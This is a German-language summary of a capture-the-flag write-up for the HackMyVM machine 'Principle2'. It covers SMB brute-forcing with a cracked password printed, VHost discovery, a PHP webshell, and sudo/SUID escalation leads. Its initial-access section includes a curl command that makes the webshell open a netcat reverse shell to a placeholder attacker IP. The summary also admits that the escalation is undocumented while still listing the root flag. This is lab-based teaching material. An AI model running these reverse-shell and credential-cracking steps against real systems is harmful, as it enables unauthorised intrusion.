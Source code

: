 # Principle2 - HackMyVM (Medium)

![Principle2.png](Principle2.png)

## Übersicht

*   **VM:** Principle2
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Principle2)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 18. Dezember 2023
*   **Original-Writeup:** https://alientec1908.github.io/Principle2_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, die User- und Root-Flags der Maschine "Principle2" zu erlangen. Der Weg dorthin begann mit der Entdeckung eines virtuellen Hosts (`thetruthoftalos.hmv`), auf dem eine Webanwendung lief. Diese Anwendung war anfällig für eine Schwachstelle (vermutlich File Upload oder Command Injection über `index.php`), die das Hochladen und Ausführen einer PHP-Webshell (`ben.php`) im `/uploads/`-Verzeichnis ermöglichte. Dies führte zu initialem Zugriff als `www-data`. Die weitere Eskalation zu Root wurde im Bericht nicht vollständig dokumentiert, aber es wurden vielversprechende Vektoren identifiziert: eine SUID-Root-Binary (`/usr/bin/updater`) und eine `sudo`-Regel, die `www-data` erlaubte, `/usr/bin/cat` als Benutzer `talos` auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `smbclient`
*   `crackmapexec`
*   `nbtscan` (impliziert für SMB-Enumeration)
*   `wfuzz`
*   `nc` (netcat)
*   `cat`
*   `xargs`
*   `tr`
*   `msfconsole` (impliziert für die Suche, aber kein Exploit ausgeführt)
*   `smbmap` (impliziert für SMB-Enumeration)
*   `showmount` (impliziert für NFS-Enumeration)
*   `mount` (impliziert für NFS-Enumeration)
*   `ngrep` (impliziert für Netzwerkanalyse)
*   `wget`
*   `exiftool` (impliziert für Bildanalyse)
*   `strings` (impliziert für Bildanalyse)
*   `steghide` (impliziert für Bildanalyse)
*   `stegsnow` (impliziert für Bildanalyse)
*   `binwalk` (impliziert für Bildanalyse)
*   `curl`
*   `find`
*   `ss`
*   `sudo`
*   Standard Linux-Befehle (`ls`, `id`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Principle2" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration (Web, SMB, NFS, VHost):**
    *   IP-Adresse des Ziels (192.168.2.131) mit `arp-scan` identifiziert. Hostname `principle2.hmv` in `/etc/hosts` eingetragen.
    *   `nmap`-Scan offenbarte Port 80 (HTTP, Nginx 1.22.1 mit Apache-Default-Titel), 111 (RPCBind), 139/445 (SMB, Samba 4.6.2) und 2049 (NFS).
    *   `gobuster` auf `http://principle2.hmv` fand keine signifikanten Pfade.
    *   SMB-Enumeration (`enum4linux-ng` oder `crackmapexec`) fand die Shares `public` und `hermanubis` sowie die Benutzer `hermanubis`, `talos`, `byron`, `melville`.
    *   `crackmapexec smb` knackte das Passwort für `talos` zu `s13!34g$3FVA5e@ed`.
    *   `wfuzz` VHost-Enumeration fand `thetruthoftalos.hmv`. Dieser wurde in `/etc/hosts` eingetragen.
    *   Die Startseite von `http://thetruthoftalos.hmv` zeigte "NOTHING". `gobuster` auf diesem VHost fand `index.php` und das Verzeichnis `/uploads/`.
    *   Die `index.php` enthielt ein Formular, das einen `filename`-Parameter entgegennahm und auf eine mögliche Command Injection oder LFI hindeutete. Im `/uploads`-Verzeichnis wurden thematisch passende `.txt`-Dateien gefunden.
    *   Steganographie-Versuche auf eine `newjerusalem.jpg` (Herkunft unklar) blieben erfolglos.

2.  **Initial Access (Web RCE als `www-data`):**
    *   Eine (nicht im Detail gezeigte) Schwachstelle, vermutlich in `index.php` auf `thetruthoftalos.hmv` oder durch direkten Upload, ermöglichte das Platzieren einer PHP-Webshell (`ben.php`) im Verzeichnis `/uploads/`.
    *   Durch Aufrufen von `http://thetruthoftalos.hmv/uploads/ben.php?cmd=id` wurde RCE als `www-data` bestätigt.
    *   Mittels `curl "http://thetruthoftalos.hmv/uploads/ben.php?cmd=nc%20-e%20/bin/bash%20ANGRIFFS_IP%204444"` wurde eine Reverse Shell zu einem Netcat-Listener als `www-data` aufgebaut.

3.  **Privilege Escalation (Ansätze):**
    *   Als `www-data` wurde eine SUID-Root-Datei `/usr/bin/updater` (Gruppe `melville`) gefunden.
    *   `sudo -l` als `www-data` zeigte, dass `/usr/bin/cat` als Benutzer `talos` ohne Passwort ausgeführt werden durfte: `(talos) NOPASSWD: /usr/bin/cat`.
    *   Versuche, `/etc/shadow` mit `sudo -u talos cat /etc/shadow` zu lesen, scheiterten an den Rechten von `talos`.
    *   *Der Bericht endet hier, bevor eine erfolgreiche Eskalation zu `talos` oder `root` gezeigt wird.*

4.  **Flags (wie im Bericht angegeben, aber der Weg dorthin ist nicht vollständig dokumentiert):**
    *   User-Flag: `c7d0a8de1e03b25a6f7ed2d91b94dad6`
    *   Root-Flag: `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Wichtige Schwachstellen und Konzepte

*   **VHost Enumeration:** Auffinden der Subdomain `thetruthoftalos.hmv`.
*   **Schwache SMB-Credentials:** Das Passwort für den Benutzer `talos` konnte mittels Brute-Force geknackt werden.
*   **Webshell Upload / RCE:** Eine (nicht detailliert beschriebene) Schwachstelle erlaubte das Hochladen und Ausführen einer PHP-Webshell.
*   **SUID Binary:** Die Datei `/usr/bin/updater` (SUID Root, Gruppe `melville`) wurde als potenzieller Eskalationsvektor identifiziert.
*   **Unsichere `sudo`-Regel:** `www-data` durfte `cat` als `talos` ausführen, was das Lesen von Dateien im Kontext von `talos` ermöglicht.

## Flags

*   **User Flag:** `c7d0a8de1e03b25a6f7ed2d91b94dad6`
*   **Root Flag:** `5C42D6BB0EE9CE4CB7E7349652C45C4A`

## Tags

`HackMyVM`, `Principle2`, `Medium`, `VHost Enumeration`, `SMB Brute-Force`, `Webshell Upload`, `RCE`, `SUID Binary`, `sudo Exploit`, `Linux`, `Web`, `Privilege Escalation`, `Nginx`, `Samba`, `NFS`, `Apache` (falscher Titel)
